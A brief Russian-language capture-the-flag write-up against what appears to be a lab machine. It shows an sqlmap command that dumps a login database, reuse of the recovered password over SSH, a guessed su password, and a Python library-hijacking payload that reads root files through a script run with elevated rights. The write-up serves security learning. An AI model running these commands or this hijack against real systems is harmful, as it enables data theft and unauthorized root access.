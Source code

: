 Исследуем сайт и находим форму аутентификации и регистрации. 
Запустим sqlmap для дампа БД и получим пароль smokey
```
sqlmap -u http://10.10.6.126:8000/login --level 1  --dump -D website --data "username=unl&password=123123" 
```
![](../attachment/Pasted%20image%2020251031170150.png)

попробуем найденный пароль для ssh и получаем доступ
![](../attachment/Pasted%20image%2020251101143124.png)

Изучив систему ничего доступного найдено не было. Найдены 2 пользователя hazel и ubuntu
попробуем выполнить su hazel и введем пароль как имя пользователя
![](../attachment/Pasted%20image%2020251101145318.png)
![](../attachment/Pasted%20image%2020251101145636.png)
Изучаем домашнюю директорию и находим первый флаг. Также видим программу hasher.py, которая генерирует хеши введенного пароля
![](../attachment/Pasted%20image%2020251101145512.png)
Изменить или удалить файл нельзя, также нет прав на создание файлов в директории.
В начале скрипта вызывается библиотека hashlib. Создадим ее сами по пути /dev/shm и пропишем туда скрипт для получения root флага
```
import os

os.system("whoami && ls /root")
os.system("cat /root/root.txt") 
```

![](../attachment/Pasted%20image%2020251101154350.png)